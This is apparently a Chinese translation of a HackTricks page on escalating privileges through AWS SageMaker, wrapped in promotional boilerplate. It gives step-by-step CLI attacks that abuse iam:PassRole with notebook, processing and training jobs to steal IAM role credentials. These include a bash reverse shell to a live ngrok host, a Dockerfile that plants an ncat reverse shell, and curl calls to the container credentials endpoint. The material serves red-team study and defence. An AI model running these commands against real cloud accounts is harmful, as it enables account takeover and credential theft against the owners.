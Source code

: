 # AWS - Sagemaker提权

## AWS - Sagemaker提权

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

开始创建一个带有IAM角色访问权限的笔记本：
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
```html
<p>响应应包含一个`NotebookInstanceArn`字段，其中将包含新创建的笔记本实例的ARN。然后，我们可以使用`create-presigned-notebook-instance-url` API生成一个URL，我们可以在准备就绪后用来访问笔记本实例：</p>
```
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
访问浏览器中的URL，点击右上角的\`打开JupyterLab\`，然后滚动到“启动器”选项卡，在“其他”部分下，点击“终端”按钮。

现在可以访问IAM角色的元数据凭据。

**潜在影响：** 特权升级到指定的Sagemaker服务角色。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

如果已经在其上运行Jupyter **笔记本**，您可以使用`sagemaker:ListNotebookInstances`列出它们（或以任何其他方式发现它们）。您可以为它们**生成一个URL，访问它们，并像前一种技术中指示的那样窃取凭据**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在影响:** 特权升级至附加的Sagemaker服务角色。

### `sagemaker:CreateProcessingJob,iam:PassRole`

拥有这些权限的攻击者可以让Sagemaker执行一个附加了Sagemaker角色的处理作业。攻击者可以指定在AWS托管的ECS账户实例中运行的容器的定义，并窃取附加的IAM角色的凭据。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在影响:** 特权升级至指定的Sagemaker服务角色。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

拥有这些权限的攻击者将能够创建一个训练作业，在其中**运行任意容器**并附加一个**角色**。因此，攻击者将能够窃取该角色的凭据。

{% hint style="warning" %}
与之前的情况相比，这种情景更难利用，因为您需要生成一个Docker镜像，该镜像将直接将反向shell或凭据发送给攻击者（您无法在训练作业的配置中指定起始命令）。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在影响:** 特权升级至指定的Sagemaker服务角色。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

拥有这些权限的攻击者将（可能）能够创建一个**超参数调整作业**，在其上**运行任意容器**并附加一个**角色**给它。\
_由于时间不足，我还没有利用，但看起来与先前的利用方式类似，欢迎提交一个带有利用细节的PR。_

## 参考资料

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
